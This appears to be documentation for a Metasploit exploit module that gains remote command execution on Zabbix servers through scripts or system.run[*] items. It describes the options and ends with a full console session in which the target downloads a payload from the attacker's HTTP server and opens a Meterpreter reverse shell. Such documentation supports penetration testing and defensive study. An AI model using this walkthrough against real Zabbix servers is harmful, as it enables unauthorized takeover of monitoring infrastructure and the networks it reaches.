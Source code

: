 ## Vulnerable Application

### Description

Zabbix server allow remote command execution by two different way.

The first way happen with the directive `AllowKey=system.run[*]` [[1]](https://blog.zabbix.com/zabbix-remote-commands/7500/#system.run).

This directive is disabled by default, if an attacker already know Zabbix credentials 
and the directive is enabled, he can abuse this functionnality to take control over the Zabbix server.

The second way is by creating a script 
[[2]](https://www.zabbix.com/documentation/devel/en/manual/web_interface/frontend_sections/administration/scripts) 
in Zabbix and use it on a host.

### Setup

An easy way to setup a Zabbix server is to download and run their [appliance](https://www.zabbix.com/download_appliance).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This uses a Linux dropper to execute code.

### 1

This executes a Unix command.

## Options

### TECHNIQUE

#### script
If this option is set, the exploit will try to use a script, in order to achieve RCE.

#### item
If this option is set, the exploit will try to use the key `system.run[*]` in an item, in order to achieve RCE, only works in Zabix >= 3.0. 
This only work on a non default Zabbix server configuration, where 
the directive `AllowKey=system.run[*]` is enabled in the `zabbix-agentd.conf` file.

### TLS_PSK
Communication between an agent and the server can be encrypted with TLS using a PSK (pre-shared key).

If the server is configured to enforce that, you have to get the key from the web interface (browse inside a host 
and navigate to `Encryption` tab) and specifiy it with this option, otherwise RCE is not gonna happen.

### TLS_PSK_IDENTITY

This is also inside an host, in the `Encryption` tab.

## Scenarios

### Zabbix server from [VMWare](#setup).

```
msf6 > use exploit/multi/http/zabbix_script_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/zabbix_script_exec) > set RHOSTS 192.168.0.130
RHOSTS => 192.168.0.130
msf6 exploit(multi/http/zabbix_script_exec) > set USE_ITEM true
USE_ITEM => true
msf6 exploit(multi/http/zabbix_script_exec) > set LHOST eth0
LHOST => 192.168.0.129
msf6 exploit(multi/http/zabbix_script_exec) > run
[*] Started reverse TCP handler on 192.168.0.129:4444 
[+] Sucessfully logged in
[*] Getting a valid group id...
[*] Creating a host called kTsSUTGmgKCwcsbMjZ
[*] Using URL: http://0.0.0.0:8081/4J54NLVPQsj
[*] Local IP: http://127.0.0.1:8081/4J54NLVPQsj
[*] Creating an item called MkMczJNYyEoSBTwsBG
[*] Client 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0) requested /4J54NLVPQsj
[*] Sending payload to 192.168.0.130 (curl/7.25.0 (i586-suse-linux-gnu) libcurl/7.25.0 OpenSSL/1.0.1c zlib/1.2.7 libidn/1.25 libssh2/1.4.0)
[*] Sending stage (984904 bytes) to 192.168.0.130
[*] Meterpreter session 1 opened (192.168.0.129:4444 -> 192.168.0.130:33354 ) at 2022-01-08 01:20:47 +0000
[*] Server stopped.

meterpreter > getuid
Server username: zabbix
meterpreter > 
```
